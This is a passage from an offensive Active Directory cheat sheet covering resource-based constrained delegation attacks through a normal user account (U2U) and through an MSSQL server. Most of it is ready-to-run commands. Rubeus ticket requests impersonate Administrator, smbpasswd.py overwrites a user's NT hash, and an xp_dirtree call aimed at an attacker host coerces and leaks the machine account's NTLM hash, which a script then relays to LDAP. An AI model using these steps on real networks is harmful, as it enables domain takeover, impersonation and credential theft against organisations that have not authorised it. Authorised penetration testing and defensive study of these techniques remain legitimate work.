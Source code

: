 * Request a Service Ticket via U2U (S4USelf request) with the previous TGT specified in `/tgs:` (additional ticket added to the request body identifying the target user account) and `/ticket:` (authentication). If U2U is not used, the KDC cannot find the account's LT key when a UPN is specified instead of a SPN. The account to impersonate via the futur S4U request is also present:

```powershell
.\Rubeus.exe asktgs /u2u /ticket:TGT.kirbi /tgs:TGT.kirbi /targetuser:Administrator /nowrap
```

* Retrieve the TGT session key in HEX format:

```python
import binascii, base64
print(binascii.hexlify(base64.b64decode("<TGT_SESSION_KEY_B64>")).decode())
```

* Now, change the user's long term key (his RC4 NT hash actually) to be equal to the TGT session key. The ST sent in the S4UProxy is encrypted with the session key, but the KDC will try to decipher it with the user's long term key, this is why the LT key must be equal to the session key (**WARNING !!! The user's password is now equal to an unknown value, you have to use a sacrificial account to realise this attack**). Everything is explained [here](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html).

```bash
smbpasswd.py -newhashes :sessionKey 'domain.local'/'user1':'Password123!'@'DC'
```

* Realize the S4UProxy request with the previous S4USelf U2U ticket (ciphered with the session key) as additional ticket and the original TGT as ticket:

```powershell
.\Rubeus.exe s4u /msdsspn:cifs/target.domain.local /ticket:TGT.kirbi /tgs:U2U.kirbi
```

* Finally, use this ticket to do whatever you want

#### RBCD from MSSQL server

If we have sufficient access to a MSSQL server we can use the `xp_dirtree` in order to leak the Net-NTLM hash of the machine account. Additionally, the **Web Service** client must be running on the machine in order to trick the authentication from SMB to HTTP and avoid the NTLM signature (authentication must be sent to `@80`):

* Create a DNS record in order to be able to leak the NTLM hash externally
* Use the `xp_dirtree` (or `xp_fileexist`) function to the created DNS record on `@80`. This will force the authentication and leak the hash
* Relay the machine hash to the LDAP server to add a controlled account (**with a SPN** for the further S4USelf request) to the `msDS-AllowedToActOnBehalfOfOtherIdentity` of the target machine
* Now we can ask a ST for a user we want to impersonate for a service on the machine

```powershell
#Add the DNS
Invoke-DNSUpdate -DNSType A -DNSName attacker.domain.local -DNSData <attacker_IP> -Realm domain.local

#On our machine, waiting for the leak
#https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c
python rbcd_relay.py 192.168.24.10 domain.local 'target$' <controlledAccountWithASPN>

#ON the MSSQL server
SQLCMD -S <MSSQL_instance> -Q "exec master.dbo.xp_dirtree '\\attacker@80\a'" -U Admin -P Admin

#After the attack, ask for a ST with full S4U
.\Rubeus.exe s4u /user:<controlled_account> /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/<target> /domain:domain.local /dc:DC.domain.local /ptt
```
